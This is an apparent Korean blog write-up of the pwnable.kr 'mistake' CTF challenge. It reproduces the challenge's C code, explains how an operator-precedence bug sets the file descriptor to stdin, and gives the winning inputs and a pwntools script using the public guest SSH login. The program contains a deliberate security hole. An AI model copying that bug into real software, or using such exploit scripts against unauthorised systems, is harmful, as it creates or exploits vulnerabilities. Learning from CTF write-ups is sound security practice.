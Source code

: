 ```yaml
---
title: "[pwnable.kr]Toddler/mistake"
tags: [pwnable.kr, Toddler's Bottle, writeup]
author: eli_ez3r
key: 20180918
modify_date: 2018-09-18
article_header:
  type: cover
  image:
    src: /assets/img/write-up/pwnable_kr.png
---
```


-----

```
We all make mistakes, let's move on.
(don't take this too seriously, no fancy hacking skill is required at all)

This task is based on real event
Thanks to dhmonkey

hint : operator priority

ssh mistake@pwnable.kr -p2222 (pw:guest)
```

-----

```c
#include <stdio.h>
#include <fcntl.h>

#define PW_LEN 10
#define XORKEY 1

void xor(char* s, int len){
        int i;
        for(i=0; i<len; i++){
                s[i] ^= XORKEY;
        }
}

int main(int argc, char* argv[]){

        int fd;
        if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
                printf("can't open password %d\n", fd);
                return 0;
        }

        printf("do not bruteforce...\n");
        sleep(time(0)%20);

        char pw_buf[PW_LEN+1];
        int len;
        if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
                printf("read error\n");
                close(fd);
                return 0;
        }

        char pw_buf2[PW_LEN+1];
        printf("input password : ");
        scanf("%10s", pw_buf2);

        // xor your input
        xor(pw_buf2, 10);

        if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
                printf("Password OK\n");
                system("/bin/cat flag\n");
        }
        else{
                printf("Wrong Password\n");
        }

        close(fd);
        return 0;
}
```

`mistake.c`파일을 열어보면 위와 같다.

-----

### 0x00. Analysis

무작위공격을 방지하기 위해 최대 19초의 sleep을 걸어준다.

그리고 `password` 파일을 열어 내용을 읽어 `pw_buf`에 저장한다. 이후 사용자로 부터 비밀번호를 입력받아 1과 xor한 후 그 값을 `pw_buf`와 비교하여 맞으면 문제가 풀린다. 

Really???

이렇게 코드를 분석 했다면 <u>**당신은 문제를 풀 수 없다. ㅋㅋㅋㅋㅋㅋ**</u>

-----

### 0x01. Real Analysis

```c
if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
    printf("can't open password %d\n", fd);
    return 0;
}
```

이 부분을 자세히 살펴보자. 

```c
fd = open("/home/mistake/password",O_RDONLY,0400) < 0
```

특히 이부분이다.

우리가 순간적으로 코드를 분석 할 때, password파일을 열고 해당 파일의 디스크립터 번호가 fd에 들어가며 그 값이 0보다 작으면 if문이 실행된다고 생각하지만...

**[!] 아니다.**

소스코드를 보면 연산자가  2가지가 존재한다. `=` 와 `<` 가 있다. 두개의 연산자 중에서 `<`가 우선 순위가 더 높다.

이렇게 되면 분석이 완전히 달라진다.

`open()` 함수가 실행되고 나서 파일 디스크립트 번호가 부여된다. 파일이 존재하면 이 값은 항상 0보다 클 것이다. 예를들어 `3`이라는 값을 부여받았을 때, `3 < 0` 의 결과는 `False`가 된다.  False는 `0`의 값을 가지므로, `fd`에 `0`이 대입되게 된다.

```c
if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
    printf("read error\n");
    close(fd);
    return 0;
}
```

이후 if문에서 `read`가 실행되는데, 이때 `fd`값이 `0` 이므로, 키보드로 부터 값을 입력받게 된다.

> 그래서 19초가 지나도 반응이 없다가 엔터를 쳐야 "input password :" 텍스트가 보였던 것!!!

따라서, 사용자가 `pw_buf`와 `pw_buf2`의 값을 모두 입력할 수 있다는 것이다.

-----

### 0x02. Exploit

`pw_buf2` ^ `1` = `pw_buf` 이면 되므로,

```
mistake@prowl:~$ ./mistake
do not bruteforce...
1111111111
input password : 0000000000
Password OK
Mommy, the operator priority always confuses me :(
```

끄읏....!!

-----

```python
from pwn import *
import time

conn = ssh("mistake", "pwnable.kr", port=2222, password="guest")
p = conn.process("./mistake")

p.recv()
time.sleep(20)
p.sendline("1111111111")
p.recvuntil("input password : ")
p.sendline("0000000000")

print p.recv()
p.close()
conn.close()
```

-----

